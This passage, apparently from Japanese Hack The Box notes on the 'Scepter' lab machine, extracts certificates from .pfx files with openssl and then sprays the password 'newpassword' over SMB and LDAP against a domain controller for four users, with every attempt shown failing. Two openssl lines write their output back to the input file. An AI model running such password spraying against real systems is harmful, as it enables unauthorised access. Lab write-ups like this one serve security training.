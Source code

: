 証明書の抽出
```sh
openssl pkcs12 -in clark.pfx -clcerts -nokeys -out clark.crt
openssl pkcs12 -in lewis.pfx -clcerts -nokeys -out lewis.pfx
openssl pkcs12 -in scott.pfx -clcerts -nokeys -out scott.pfx
```

この抽出できた証明書と秘密鍵を使って、何かにログインできないかを試す
ここからできる
- ユーザー名がわかったので、ASREP-Roastingできる？
- SMBかLDAPにパスワード、newpasswordとしてログインできる？

## newpasswordを試す
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/Scepter]
└─$ nxc smb scepter.htb -u 'scott' -p 'newpassword' --users
nxc smb scepter.htb -u 'lewis' -p 'newpassword' --users
nxc smb scepter.htb -u 'clark' -p 'newpassword' --users
nxc smb scepter.htb -u 'baker' -p 'newpassword' --users


nxc ldap scepter.htb -u 'scott' -p 'newpassword' --users
nxc ldap scepter.htb -u 'lewis' -p 'newpassword' --users
nxc ldap scepter.htb -u 'clark' -p 'newpassword' --users
nxc ldap scepter.htb -u 'baker' -p 'newpassword' --users
SMB         10.129.105.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.105.186  445    DC01             [-] scepter.htb\scott:newpassword STATUS_LOGON_FAILURE
SMB         10.129.105.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.105.186  445    DC01             [-] scepter.htb\lewis:newpassword STATUS_LOGON_FAILURE
SMB         10.129.105.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.105.186  445    DC01             [-] scepter.htb\clark:newpassword STATUS_LOGON_FAILURE
SMB         10.129.105.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.105.186  445    DC01             [-] scepter.htb\baker:newpassword STATUS_LOGON_FAILURE
LDAP        10.129.105.186  389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:scepter.htb)
LDAP        10.129.105.186  389    DC01             [-] scepter.htb\scott:newpassword 
LDAP        10.129.105.186  389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:scepter.htb)
LDAP        10.129.105.186  389    DC01             [-] scepter.htb\lewis:newpassword 
LDAP        10.129.105.186  389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:scepter.htb)
LDAP        10.129.105.186  389    DC01             [-] scepter.htb\clark:newpassword 
LDAP        10.129.105.186  389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:scepter.htb)
LDAP        10.129.105.186  389    DC01             [-] scepter.htb\baker:newpassword
```
ダメそう
